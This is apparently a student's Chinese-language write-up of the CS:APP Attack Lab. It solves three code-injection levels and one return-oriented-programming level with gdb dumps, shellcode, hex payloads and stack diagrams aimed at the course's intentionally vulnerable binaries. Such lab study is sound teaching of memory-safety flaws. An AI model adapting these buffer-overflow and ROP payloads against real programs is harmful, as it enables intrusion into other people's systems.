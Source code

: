 # Attack Lab

## Part I: Code Injection Attacks

### Level 1
level 1 在 `test` 函式內，需要利用 `test` 內呼叫到的 `getbuf` 函式。
因為 `getbuf` 沒有作邊界檢查，可能造成 buffer overflow 的漏洞。
利用此處 buffer overflow 將 `getbuf` 的 return address 改寫成 `touch1` 函式的地址。

- test()
    ```
    (gdb) disass test
    Dump of assembler code for function test:
    0x0000000000401968 <+0>:	sub    $0x8,%rsp
    0x000000000040196c <+4>:	mov    $0x0,%eax
    0x0000000000401971 <+9>:	callq  0x4017a8 <getbuf>
    0x0000000000401976 <+14>:	mov    %eax,%edx
    0x0000000000401978 <+16>:	mov    $0x403188,%esi
    0x000000000040197d <+21>:	mov    $0x1,%edi
    0x0000000000401982 <+26>:	mov    $0x0,%eax
    0x0000000000401987 <+31>:	callq  0x400df0 <__printf_chk@plt>
    0x000000000040198c <+36>:	add    $0x8,%rsp
    0x0000000000401990 <+40>:	retq   
    End of assembler dump.
    ```

- getbuf()
    ```
    (gdb) disass getbuf
    Dump of assembler code for function getbuf:
    0x00000000004017a8 <+0>:	sub    $0x28,%rsp
    0x00000000004017ac <+4>:	mov    %rsp,%rdi
    0x00000000004017af <+7>:	callq  0x401a40 <Gets>
    0x00000000004017b4 <+12>:	mov    $0x1,%eax
    0x00000000004017b9 <+17>:	add    $0x28,%rsp
    0x00000000004017bd <+21>:	retq   
    End of assembler dump.
    ```

觀察進入 `getbuf` 時開出的 buffer 空間為 `0x28` (40byte)。
在輸入字串時在 40 byte 以後的內容以 little-endian 的順序寫入 `touch1` 的地址 (0x00000000004017c0)

- ctarget.l1.txt
    ```
    36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 c0 17 40 00 00 00 00 00
    ```

前 40Byte 為任意字串，後面加上 "c0 17 40 00 00 00 00 00" (`touch1` 的地址 - little-endian)

```
./hex2raw < ctarget.l1.txt | ./ctarget -q
```

在 `getbuf` 結束，成功跳轉到 `touch1`

### Level 2
與 level1 類似，需要讓程式執行 `touch2`，但在執行 `touch2` 之前需要將 cookie 寫入傳參 ($rdi) 才能通過。
所以我們可以注入一段程式碼，並且在 `touch2` 之前執行。

- ctargetl2.s
    ```
    pushq   $0x4017ec           # 先將 touch2 地址 push 進 stack
    mov     $0x59b997fa, %rdi   # 將 cookie 寫入 $rdi
    retq                        # return 回 $rsp 內儲存的位址 (touch2)
    ```

- 組譯後再反組譯得到 machine code
    ```
    $ gcc -c ctargetl2.s
    $ objdump -d ctargetl2.o > ctargetl2.d
    ```

- ctargetl2.d
    ```
    ctarget_l2/ctargetl2.o:     file format elf64-x86-64
    Disassembly of section .text:

    0000000000000000 <.text>:
        0:	68 ec 17 40 00       	pushq  $0x4017ec
        5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
        c:	c3                   	retq   
    ```


- ctarget.l2.txt
    ```
    68 ec 17 40 00 48 c7 c7 fa 97 b9 59 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00
    ```

    |    |    |    |    |    |    |    |    |
    | -- | -- | -- | -- | -- | -- | -- | -- |
    | 00 | 00 | 00 | 00 | 55 | 61 | dc | 78 | <- $rsp : 0x5561dca0
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | c3 | 59 | b9 | 97 | fa |
    | c7 | c7 | 48 | 00 | 40 | 17 | ec | 68 | <- getbuf : 0x5561dc78

    在結束 `getbuf` 後會先跳至 stack 段 (0x5561dc78) 執行注入的程式碼。先是將 `touch2` 地址 push 進 stack，再將 cookie 寫入傳參，最後 return 到 `touch2`。

### Level 3
與 level2 類似，`touch3` 傳參變為字串起始位址，但因為 `touch3` 內大量使用 stack 空間，會把 getbuf 注入的程式蓋寫，所以需要注入到 `test` 使用的 stack 區段才能躲過。

- cookie
    ```
    0x59b997fa
    ```
    ```
    35 39 62 39 39 37 66 61 00
    ```

- ctargetl3.s
    ```
    pushq   $0x4018fa           # 先將 touch2 地址 push 進 stack
    mov     $0x5561dca8, %rdi   # 將 cookie 字串的儲存位址寫入 $rdi
    retq                        # return 回 $rsp 內儲存的位址 (touch3)
    ```

- 組譯後再反組譯得到 machine code
    ```
    $ gcc -c ctargetl3.s
    $ objdump -d ctargetl3.o > ctargetl3.d
    ```

- ctargetl3.d
    ```
    ctarget_l3/ctargetl3.o:     file format elf64-x86-64
    Disassembly of section .text:
    
    0000000000000000 <.text>:
        0:	68 fa 18 40 00       	pushq  $0x4018fa
        5:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
        c:	c3                   	retq   
    ```

- ctarget.l3.txt
    ```
    68 fa 18 40 00 48 c7 c7 a8 dc 61 55 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
    ```
    |    |    |    |    |    |    |    |    |
    | -- | -- | -- | -- | -- | -- | -- | -- |
    | -- | -- | -- | -- | -- | -- | -- | 00 |
    | 61 | 66 | 37 | 39 | 39 | 62 | 39 | 35 | <- `test` 使用的 stack 區域
    | 00 | 00 | 00 | 00 | 55 | 61 | dc | 78 | <- $rsp : 0x5561dca0
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | c3 | 55 | 61 | dc | a8 |
    | c7 | c7 | 48 | 00 | 40 | 18 | fa | 68 | <- getbuf : 0x5561dc78


## Part II: Return-Oriented Programming

### Level 2
- 與 code injection 要做的事一樣，但多了一些限制
    - 每次執行 stack 位置都不一樣
    - stack 區段被設為不可執行，若想執行注入 stack 的程式，會發生 segmentation fault.
- 雖然困難度提昇，但是仍可以使用程式內存在的 gadget 來完成任務。

- stack 可注入以下兩種
    - gadget 位址
    - data (利用 pop 指令)

- rtarget.l2.txt
    ```
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 cc 19 40 00 00 00 00 00 fa 97 b9 59 00 00 00 00 a3 19 40 00 00 00 00 00 ec 17 40 00 00 00 00 00
    ```
    |    |    |    |    |    |    |    |    |
    | -- | -- | -- | -- | -- | -- | -- | -- |
    | 00 | 00 | 00 | 00 | 00 | 40 | 17 | ec | <- touch2
    | 00 | 00 | 00 | 00 | 00 | 40 | 19 | a3 | <- gadget 2
    | 00 | 00 | 00 | 00 | 59 | b9 | 97 | fa | <- injection data (cookie)
    | 00 | 00 | 00 | 00 | 00 | 40 | 19 | cc | <- gadget 1, $rsp : 0x5561dca0
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | <- getbuf : 0x5561dc78

    ```
    58      popq    %rax    # pop injection data 到 %rax
    90      nop
    c3      ret
    ```
    可以在以下 gadget 找到，位址 `0x4019cc` (gadget 1)
    ```
    00000000004019ca <getval_280>:
        4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
        4019cf:	c3                   	retq  
    ```

    ```
    48 89 c7    movq    %rax, %rdi      # injection data 存入 %rdi
    c3          ret
    ```
    可以在以下 gadget 找到，位址 `0x4019a3` (gadget 2)
    ```
    00000000004019a0 <addval_273>:
        4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
        4019a6:	c3                   	retq   
    ```

    最後 return 回 `touch2`